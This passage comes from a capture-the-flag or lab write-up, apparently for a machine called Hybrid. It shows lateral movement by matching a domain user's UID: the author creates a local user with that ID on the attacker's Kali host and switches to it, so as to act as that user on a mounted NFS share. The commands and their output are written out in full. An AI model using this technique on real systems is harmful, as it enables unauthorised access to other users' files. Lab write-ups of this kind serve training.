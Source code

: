 
## Lateral movement
When we create files on the mounted NFS share from our Kali machine we can see that the name of the user is our own user.
```
┌──(kali㉿kali)-[/tmp/share]
└─$ ls -al
total 28
drwxrwxrwx  4 nobody nogroup 4096 Jan 31 11:09 .
drwxrwxrwt 17 root   root    4096 Jan 31 11:09 ..
-rw-r--r--  1 root   root    6003 Jun 18  2023 backup.tar.gz
drwxr-xr-x  5 kali   kali    4096 Jan 31 10:23 etc
-rwxr-xr-x  1 kali   kali       3 Jan 31 11:09 id.sh
drwxr-xr-x  3 kali   kali    4096 Jan 31 10:24 opt
```


However, on the other side we see the id of our user.
```
www-data@mail01:/opt/share$ ls -al
total 24
drwxrwxrwx 4 nobody nogroup 4096 Jan 31 10:13 .
drwxr-xr-x 4 root   root    4096 Jun 17  2023 ..
-rw-r--r-- 1 root   root    6003 Jun 18  2023 backup.tar.gz
drwxr-xr-x 5   1000    1000 4096 Jan 31 09:23 etc
-rw-r--r-- 1   1000    1000    0 Jan 31 10:13 id.sh
drwxr-xr-x 3   1000    1000 4096 Jan 31 09:24 opt
```


Since we know that the other user on this machine is peter.turner, we can try to change our user to fit his id. That way we might be able to get a shell as him.
```
www-data@mail01:/home$ ls
peter.turner@hybrid.vl
```


Peter.turner user id (902601108).
```
www-data@mail01:/home$ id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```


Create the user.
```
┌──(kali㉿kali)-[/tmp/share]
└─$ sudo useradd -u "902601108" peter.turner@hybrid.vl     
useradd warning: peter.turner@hybrid.vl's uid 902601108 outside of the UID_MIN 1000 and UID_MAX 60000 range.
```


Change the password and switch to the user.
```
┌──(kali㉿kali)-[/tmp/share]
└─$ sudo passwd peter.turner@hybrid.vl
New password: 
Retype new password: 
passwd: password updated successfully


┌──(kali㉿kali)-[/tmp/share]
└─$ su peter.turner@hybrid.vl         
Password: 
$ id
uid=902601108(peter.turner@hybrid.vl) gid=1001(peter.turner@hybrid.vl) groups=1001(peter.turner@hybrid.vl)
```